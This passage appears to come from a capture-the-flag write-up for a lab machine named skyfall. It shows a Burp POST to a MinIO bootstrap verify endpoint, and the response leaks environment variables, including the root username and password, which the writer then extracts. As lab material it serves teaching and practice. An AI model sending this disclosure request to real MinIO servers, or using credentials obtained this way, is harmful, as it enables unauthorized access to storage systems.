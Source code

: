 ```python
		multithreading(url_list,10)
	end=time()
	print('任务完成,用时%ds.' %(end-start))

```

![image-20240210114816844](../images/image-20240210114816844.png)

Burp post :http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify

![image-20240210115034627](../images/image-20240210115034627.png)

```
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
```

```
"MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0"
"MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww"
```
